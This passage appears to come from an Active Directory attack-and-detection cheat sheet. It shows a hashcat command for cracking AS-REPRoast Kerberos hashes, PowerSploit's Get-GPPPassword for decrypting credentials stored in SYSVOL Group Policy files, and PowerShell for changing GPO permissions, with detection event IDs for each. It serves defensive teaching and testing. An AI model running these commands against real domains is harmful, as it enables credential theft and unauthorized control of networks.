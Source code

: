 We can now use hashcat with the hash-mode (option -m) 18200 for AS-REPRoastable hashes. We also pass a dictionary file with passwords (the file passwords.txt) and save the output of any successfully cracked tickets to the file asrepcracked.txt:

`sudo hashcat -m 18200 -a 0 asrep.txt passwords.txt --outfile asrepcrack.txt --force`

*Detection*: When we executed Rubeus, an Event with ID 4768 was generated, signaling that a Kerberos Authentication ticket was generated

## GPP Passwords
When Microsoft released it with the Windows Server 2008, Group Policy Preferences (GPP) introduced the ability to store and use credentials in several scenarios, all of which AD stores in the policies directory in SYSVOL. AD stores all group policies in \\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\

To abuse GPP Passwords, we will use the Get-GPPPassword function from PowerSploit, which automatically parses all XML files in the Policies folder in SYSVOL, picking up those with the cpassword property and decrypting them once detected:

`PS C:\Users\bob\Downloads> Import-Module .\Get-GPPPassword.ps1`
`PS C:\Users\bob\Downloads> Get-GPPPassword`

*Detection:* Once auditing is enabled, any access to the file will generate an Event with the ID 4663
## GPO Permissions/GPO Files
Use PowerShell to retrieve GPO permissions:

```powershell
Import-Module GroupPolicy
Get-GPPermission -Name "Default Domain Policy" -All
```
To add or remove GPO permissions:

```powershell
# Grant read access
Set-GPPermission -Name "Default Domain Policy" -TargetName "Domain Users" -TargetType Group -PermissionLevel GpoRead

# Remove permissions
Set-GPPermission -Name "Default Domain Policy" -TargetName "Domain Users" -TargetType Group -PermissionLevel None
```
GPOs are stored in the SYSVOL share. You can manually inspect and edit files if needed:

```powershell
# Navigate to the GPO directory
cd "\\domain.local\SYSVOL\domain.local\Policies"

# List policy folders (each GPO has its own GUID folder)
Get-ChildItem
```

> ⚠️ **Caution**: Direct editing of GPO files may lead to corruption or misconfiguration. Always test in a lab environment first.

*Detection*:
Fortunately, it is straightforward to detect when a GPO is modified. If Directory Service Changes auditing is enabled, then the event ID 5136 will be generated
